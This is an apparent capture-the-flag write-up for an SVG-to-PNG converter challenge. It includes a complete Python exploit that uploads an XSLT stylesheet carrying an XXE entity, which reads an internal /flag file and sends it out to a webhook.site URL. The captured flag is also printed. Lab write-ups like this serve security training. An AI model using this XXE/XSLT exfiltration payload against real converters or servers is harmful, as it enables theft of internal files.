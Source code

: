 
## Convert SVG to PNG
![image](https://github.com/user-attachments/assets/a1d87668-8ee3-4491-b38f-181df52a2f7e)

Category: Web  

## Challenge
Website allows us to upload SVG and convert to PNG.

Found two versions of convertSVG function:
- convertSvgV1 → Vulnerable to XSS and file read (but impossible to trigger)  
- convertSvgV2 → No XSS possible because of `page.setJavaScriptEnabled(false)`

Discovered that the uploaded file is served using `res.end()` without Content-Type header.

This allows us to upload XSLT XML and perform XXE to read internal `/flag`.

Reference:  
https://blog.ankursundara.com/dicectf23-writeups/#impossible-xss  
https://github.com/neocotic/convert-svg/issues/88  

## Solution
Used XSLT payload to read `/flag` and send to webhook.

Payload:
```
import requests
import base64
from urllib.parse import urlencode

# Define the XSLT payload
xmls = """<?xml version="1.0"?>
<!DOCTYPE a [
 <!ENTITY xxe SYSTEM "http://127.0.0.1:8000/flag" >]>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:template match="/asdf">
    <HTML>
      <HEAD>
        <TITLE></TITLE>
      </HEAD>
      <BODY>
        <img>
          <xsl:attribute name="src">
            https://webhook.site/9e?f=&xxe;
          </xsl:attribute>
        </img>
      </BODY>
    </HTML>
  </xsl:template>
</xsl:stylesheet>"""

# Encode the XSLT as base64
xmls_base64 = base64.b64encode(xmls.encode()).decode()

# Define the main XML payload
xml = f"""<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="data:text/plain;base64,{xmls_base64}"?>
<asdf></asdf>"""

base64_encoded_xml = base64.b64encode(xml.encode()).decode()

# URL encode the XML payload
encoded_xml = urlencode({'svg': base64_encoded_xml, 'test': '0'})



# Define the target URL
url = "http://localhost:8000/convert"

# Define the headers
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Send the POST request
response = requests.post(url, headers=headers, data=encoded_xml)

# Print the response for debugging
print(f"Status Code: {response.status_code}")
print(f"Response: {response.text}")
```
Sent to /convert endpoint.

Triggered bot to visit uploaded XML file.

Got flag in webhook.

![image](https://github.com/user-attachments/assets/de21b3ee-8fad-44ad-a694-a0de3a58f8a7)

```
HTB{XS1_1n_F1l3_4nd_R3nd3r_1s_N0_J0k3}
```
